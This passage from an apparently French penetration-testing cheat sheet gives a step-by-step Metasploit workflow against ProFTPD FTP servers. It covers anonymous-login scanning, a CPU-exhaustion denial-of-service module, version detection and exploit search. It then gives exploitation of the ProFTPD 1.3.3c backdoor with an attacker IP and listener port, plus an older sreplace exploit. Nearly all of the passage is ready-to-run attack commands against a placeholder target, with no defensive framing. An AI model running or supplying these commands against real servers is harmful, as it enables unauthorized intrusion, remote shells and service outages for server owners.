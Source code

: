 #### 🔍 auxiliary/scanner/ftp/anonymous
```bash
# Test d'accès anonyme automatisé
use auxiliary/scanner/ftp/anonymous
set RHOSTS <target>
set RPORT 21
run
```

#### 💥 auxiliary/dos/ftp/proftpd_cpu_consumption
```bash
# DoS par consommation CPU
use auxiliary/dos/ftp/proftpd_cpu_consumption
set RHOSTS <target>
set RPORT 21
run
```

### 🎛️ Workflow Metasploit pour ProFTPD

#### 1. Reconnaissance initiale
```bash
msfconsole -q
db_status                # Vérifier la DB

# Scanner de version
use auxiliary/scanner/ftp/ftp_version
set RHOSTS <target>
run

# Test anonyme
use auxiliary/scanner/ftp/anonymous
set RHOSTS <target>
run
```

#### 2. Identification des vulnérabilités
```bash
# Recherche d'exploits ProFTPD
search type:exploit name:proftpd

# Informations sur un exploit spécifique
info exploit/unix/ftp/proftpd_133c_backdoor

# Vérification de vulnérabilité
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS <target>
check
```

#### 3. Exploitation ciblée
```bash
# Selon la version détectée
# Pour ProFTPD 1.3.3c
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS <target>
set LHOST <attacker_ip>
set LPORT 4444
exploit

# Pour versions plus anciennes
use exploit/linux/ftp/proftp_sreplace
set RHOSTS <target>
show targets
set TARGET 0
```